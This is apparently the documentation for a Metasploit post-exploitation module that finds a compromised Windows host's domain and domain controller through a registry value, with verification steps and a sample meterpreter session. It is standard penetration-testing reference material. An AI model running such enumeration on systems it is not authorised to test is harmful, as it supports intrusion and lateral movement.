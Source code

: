 ## Vulnerable Application

This module identifies the primary domain via the registry. The registry value used is: 
`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Group Policy\History\DCName`.

## Verification Steps

1. Start msfconsole
1. Get a session on a Windows target on a domain
1. Do: `use post/windows/gather/enum_domain`
1. Do: `set session [#]`
1. Do: `run`
1. You should information on the computer's domain

## Options

## Scenarios

### Windows 2012 DC

```
msf6 post(windows/gather/enum_domain) > sessions -i 6
[*] Starting interaction with 6...

meterpreter > sysinfo
Computer        : DC1
OS              : Windows 2012 (6.2 Build 9200).
Architecture    : x64
System Language : en_US
Domain          : hoodiecola
Logged On Users : 4
Meterpreter     : x86/windows
meterpreter > background
[*] Backgrounding session 6...
msf6 post(windows/gather/enum_domain) > use post/windows/gather/enum_domain
msf6 post(windows/gather/enum_domain) > set session 6
session => 6
msf6 post(windows/gather/enum_domain) > run

[+] FOUND Domain: hoodiecola
[+] FOUND Domain Controller: dc1 (IP: 1.1.1.1)
[*] Post module execution completed
```
